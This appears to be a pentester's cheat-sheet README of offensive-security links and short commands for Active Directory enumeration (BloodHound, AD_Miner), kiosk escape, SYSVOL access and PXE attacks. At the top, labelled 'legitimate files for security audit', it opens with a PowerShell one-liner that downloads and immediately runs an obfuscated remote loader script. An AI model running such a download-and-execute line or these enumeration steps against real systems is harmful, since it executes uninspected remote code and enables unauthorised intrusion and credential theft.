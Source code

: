 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

---
### DIVERS
---
**Global Ressources :**
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

**Kiosk evasion** : file access from browser or openfile dialogbox
```
file://c:/windows/system32/calc.exe
```

**Recent user activity**
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

**Url file attack**
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

**NTLM**
- https://www.scip.ch/en/?labs.20210909

**Files Copy**
- 

**KALI**
python -m http.server


<br/><br/>

---
### OSINT - PASSWORD
---

- https://haveibeenpwned.com/
- https://breachdirectory.org/

<br/><br/>

---
### AD
---
**SYSVOL acces without serveur name :**
```
\\mon-domaine.fr\sysvol
```
**Searching Password in GPO with explorer :**

![image](https://github.com/TikTakTech/Salsa/assets/114105972/45e450e0-3a09-4da1-89d0-24db9bc8adb7)

<br/><br/>

---
### RECONNAISSANCE - ENUMERATION
---

**BloodHound :**
```
bloodhound-python -d domain -u username@domain -p password -c all -ns domain_controller_ip -v
sudo apt install bloodhound
sudo neo4j console
http://localhost:7474/
(neo4j/neo4j)
bloodhound
```
https://medium.com/@leviathan36/active-directory-testing-with-bloodhound-a33b88622d2f

**ADMiner :**
```
pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
reopen shell ;-)
AD-miner -c -cf My_Report -u neo4j -p mypassword
```
https://github.com/Mazars-Tech/AD_Miner
<br/><br/>

---
### MEMCM - MDT - PXE
*******

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad
